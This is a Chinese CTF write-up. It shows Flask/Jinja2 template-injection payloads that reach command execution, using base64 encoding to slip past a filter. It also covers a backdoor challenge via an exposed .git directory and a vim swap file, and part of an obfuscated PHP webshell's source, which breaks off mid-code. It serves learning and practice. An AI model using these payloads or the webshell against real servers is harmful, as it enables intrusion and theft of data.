 **考点：python模板注入**

[出题人讲解视频](https://www.ichunqiu.com/course/56487)

[Flask/Jinja2中的服务端模版注入（一）](https://www.freebuf.com/articles/web/98619.html)

[Flask/Jinja2中的服务端模版注入（二）](https://www.freebuf.com/articles/web/98928.html)

提示please fuzz，参数注入，基本的参数都试一试，?name=1时回显，尝试sql注入不成功

Flask/Jinja2中存在的SSTI漏洞读取和写入文件，尝试`?name={{config}}`，返回flask的config配置的字典对象


```
//向服务器写入文件，当编译完成为subprocess模块引入check_output方法，并将其设置指向变量RUNCMD
?name={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}
 
//注入'/tmp/owned.cfg'，向config对象添加一个新项
?name={{ config.from_pyfile('/tmp/owned.cfg') }}

//验证是否能运行命令行
?name={{ config['RUNCMD']('/usr/bin/id',shell=True) }}
```

执行命令 ls，不成功，执行pwd，成功回显，存在字符过滤，使用反引号注入base64编码后执行解码命令，例如`echo bHMK | base64 -d`

```
//执行ls，成功
?name={{ config['RUNCMD']('`echo bHMK | base64 -d`',shell=True) }} //echo bHMK | base64 -d 解码

//执行ls -a，成功
?name={{ config['RUNCMD']('`echo bHMgLWEK | base64 -d`',shell=True) }}

//打开网页主目录，ls -a /var/www/html，回显fl4g
?name={{ config['RUNCMD']('`echo bHMgLWEgL3Zhci93d3cvaHRtbAo= | base64 -d`',shell=True) }}

//执行cat命令，cat /var/www/html/fl4g
?name={{ config['RUNCMD']('`echo Y2F0IC92YXIvd3d3L2h0bWwvZmw0Zwo= | base64 -d`',shell=True) }}
```

## backdoor（i春秋）

1.访问/.git，响应码是403不是404，用githack下载.git，回滚到上一个commit,提示flag在b4ckdo0r.php

2.访问后提示你能耗到我的源码吗，访问/.b4ckdo0r.php.swo下载源码，注意b4ckdo0r前面的`.`，

3.下载后用恢复该文件，`vim -r b4ckdo0r.php.swo`，将内容拷贝到新建文件中，可以看到很多变量，但是就是一些字符串，打印$L变量，得到源码

```php
<?php
$kh="4f7f";
$kf="28d7";
function x($t,$k){
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0;$i<$l;){
        for($j=0;($j<$c&&$i<$l);$j++,$i++){
            $o.=$t{$i}^$k{$j};
        }
    }
    return $o;
}

$r=$_SERVER;
$rr=@$r["HTTP_REFERER"];
$ra=@$r["HTTP_ACCEPT_LANGUAGE"];
if($rr&&$ra){
    $u=parse_url($rr);
```